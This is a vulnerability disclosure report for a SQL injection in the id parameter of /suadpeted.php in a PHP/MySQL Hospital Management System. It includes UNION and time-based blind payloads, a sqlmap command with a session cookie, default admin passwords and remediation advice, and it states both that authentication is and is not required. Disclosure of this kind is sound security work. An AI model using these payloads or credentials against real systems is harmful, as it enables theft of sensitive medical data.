 # 1. Vulnerability Title

+ SQL Injection in Hospital Management System (PHP & MySQL) v1.0 – /suadpeted.php

# 2. Affected Product
	Name: Hospital Management System (PHP & MySQL) with Source Code
	Version: 1.0

# 3. Vendor Information
	Homepage: CodeZips Hospital Management System
	Download Source Code: GitHub Repository

# 4. Reporting Details
	Submitter: Emano888
	Vulnerable File: /suadpeted.php

# 5. Vulnerability Details
	Type: SQL Injection

## 5.1 Root Cause

+ A SQL injection vulnerability exists in the /suadpeted.php file of the Hospital Management System (PHP & MySQL) v1.0. The issue arises because the application directly incorporates user input from the id parameter into SQL queries without proper sanitization or validation. This lack of input handling allows attackers to manipulate SQL queries by injecting malicious code.

## 5.2 Impact

### Exploiting this SQL injection vulnerability can lead to:
	Unauthorized access to the database
	Sensitive data leakage
	Data tampering or deletion
	Complete system control
	Service disruptions

**These impacts pose a significant threat to the security and operational continuity of the affected system.**

## 5.3 Description

+ During a security assessment of the “Hospital Management System (PHP & MySQL) with Source Code,” a critical SQL injection vulnerability was identified in the /suadpeted.php file by Emano888. The vulnerability stems from inadequate validation of the id parameter, enabling attackers to inject malicious SQL statements. This flaw allows unauthorized database access, manipulation or deletion of data, and exposure of sensitive information. Immediate remediation is necessary to safeguard system integrity and data confidentiality.

# 6. Exploitation
+ No authentication or authorization is required to exploit this vulnerability.

# 7. Vulnerability Details and Proof of Concept (PoC)

## 7.1 Vulnerability Types
	UNION query SQL Injection
	Time-Based Blind SQL Injection

## 7.2 Vulnerable Parameter
	id

## 7.3 Payloads

**UNION query SQL Injection:**
```bash
id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a7a7071,0x73657866415a53574d77417650514d796479697172644f635575647a416457556a467a6c6a686c74,0x7162626a71),NULL,NULL,NULL,NULL,NULL-- -
```
**Time-Based Blind SQL Injection:**
```bash
id=1' AND (SELECT 9249 FROM (SELECT(SLEEP(5)))WEKj) AND 'rMFL'='rMFL
```
## 7.4 Exploitation Steps with sqlmap
```bash
python3 sqlmap.py -u "http://localhost/hospital-management-system-php-master/suadpeted.php?id=1" -p id --dbs --cookie=PHPSESSID=7aj3b5o39lk37uqms1g3oo4iqq
```

## Login is required to exploit the vulnerability

Credentials:

superAdmin Password = 123

BasicAdmin Password = 123


**Screenshots from sqlmap Execution:**
![poc1](https://github.com/user-attachments/assets/ccbb882e-bf48-424e-b667-6d1eeba17405)

# 8. Recommendations for Remediation
**1.Use Prepared Statements and Parameterized Queries:**
+ Implementing prepared statements ensures that SQL queries are separated from user inputs, preventing malicious code execution.
**2.Input Validation and Sanitization:**
+ Rigorously validate and sanitize all user inputs to conform to expected formats and types before processing.
**3.Least Privilege Principle:**
+ Restrict database user permissions to the minimum required, avoiding the use of high-privilege accounts (e.g., root or admin) for routine operations.
**4.Regular Security Audits:**
+ Conduct periodic code reviews and security assessments to identify and remediate vulnerabilities promptly.

**Appendix**
+ Vendor Homepage: [Hospital Management System](https://codezips.com/php/hospital-management-system-in-php-and-mysql-with-source-code/)
+ Download Source Code: [GitHub Repository](https://codeload.github.com/codezips/hospital-management-system-php/zip/master)
